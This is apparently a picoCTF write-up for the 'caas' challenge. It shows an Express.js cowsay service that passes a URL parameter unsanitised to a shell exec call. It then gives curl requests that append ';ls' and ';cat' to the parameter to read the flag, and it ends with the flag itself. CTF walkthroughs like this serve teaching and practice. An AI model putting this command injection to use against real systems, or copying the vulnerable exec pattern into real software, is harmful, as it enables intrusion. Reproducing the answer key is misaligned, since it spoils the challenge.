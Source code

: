 ### caas

## Challenge

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

index.js

## Source Code

<pre>const express = require(&apos;express&apos;);
const app = express();
const { exec } = require(&apos;child_process&apos;);

app.use(express.static(&apos;public&apos;));

app.get(&apos;/cowsay/:message&apos;, (req, res) =&gt; {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) =&gt; {
    if (error) return res.status(500).end();
    res.type(&apos;txt&apos;).send(stdout).end();
  });
});

app.listen(3000, () =&gt; {
  console.log(&apos;listening&apos;);
});</pre>

![image](https://github.com/Harsha-creates/PicoCTF/assets/68886253/f704257c-4f0b-4b07-9639-c188e6dd5c55)

Ussing curl

`curl "https://caas.mars.picoctf.net/cowsay/I_am_Iron-Man"`

![image](https://github.com/Harsha-creates/PicoCTF/assets/68886253/ef9c95ca-9378-4ed9-b186-e64f11f0845a)

`curl "https://caas.mars.picoctf.net/cowsay/I_am_Iron-Man;ls"`

![image](https://github.com/Harsha-creates/PicoCTF/assets/68886253/85d3bf44-5f07-4032-8dc4-02539667a0eb)

<pre>curl &quot;https://caas.mars.picoctf.net/cowsay/I_am_Iron-Man;cat%20falg.txt&quot;</pre>

![image](https://github.com/Harsha-creates/PicoCTF/assets/68886253/43a4d154-662c-4f13-9a4b-49ec9387994c)

**Flag:** picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
